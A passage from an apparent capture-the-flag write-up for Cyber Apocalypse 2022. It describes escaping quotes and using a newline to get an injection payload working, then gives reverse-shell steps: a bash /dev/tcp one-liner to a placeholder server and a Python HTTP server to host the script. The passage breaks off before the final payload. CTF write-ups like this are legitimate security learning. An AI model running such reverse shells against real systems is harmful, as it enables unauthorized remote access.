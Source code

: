 After testing the payload after escaping the double quotes (\\") it says that **'something went wrong!'**

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517182732.png)

I tried to look for other payloads and found this.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517182822.png)

The difference is that the 'n' is actually a new line, so I tried this payload and it works.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517183024.png)

I changed the payload to get a reverse shell.
Payload:
1) Create shell.sh that contains revershell.
`bash -i >& /dev/tcp/yourserverip/port 0>&1`
2) Listen for http traffic.
`python3 -m http.server 80`
3) Use payload below:
